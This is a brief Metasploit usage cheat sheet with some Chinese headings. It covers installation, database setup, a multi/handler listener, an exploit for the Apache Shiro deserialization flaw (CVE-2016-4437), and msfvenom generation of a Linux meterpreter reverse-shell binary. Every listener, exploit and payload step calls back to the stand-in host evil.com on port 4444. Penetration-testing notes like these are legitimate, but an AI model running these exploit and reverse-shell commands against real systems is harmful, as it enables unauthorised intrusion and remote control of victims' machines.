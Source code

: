 The world’s most used penetration testing framework.

## 1. Install

安装

```
┌──(nemo@debian)-[~]
└─$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall \
&& chmod 755 msfinstall \
&& ./msfinstall && rm -f ./msfinstall
```

## 2. Init

```
┌──(nemo@debian)-[~]
└─$ msfdb init
```

## 3. Usage

### 3.1. msfconsole

启动数据库

```
┌──(nemo@debian)-[~]
└─$ msfdb start
```

进入控制台

```
┌──(nemo@debian)-[~]
└─$ msfconsole
```

Listen

```
msf > use exploit/multi/handler
show options
set PAYLOAD cmd/unix/reverse_bash
set LHOST evil.com
set LPORT 4444
run
```

Exploit

```
msf > search CVE-2016-4437
use exploit/multi/http/shiro_rememberme_v124_deserialize
show options
set TARGET 0
set PAYLOAD cmd/unix/reverse
set RHOSTS example.com
set RPORT 8080
set LHOST evil.com
set LPORT 4444
run
```

### 3.2. msfvenom

生成病毒

```
┌──(nemo@debian)-[~]
└─$ msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=evil.com LPORT=4444 -f elf -o ./venom
```

---

References

- [Metasploit](https://www.metasploit.com/)
- [Installing Metasploit on Linux / macOS](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

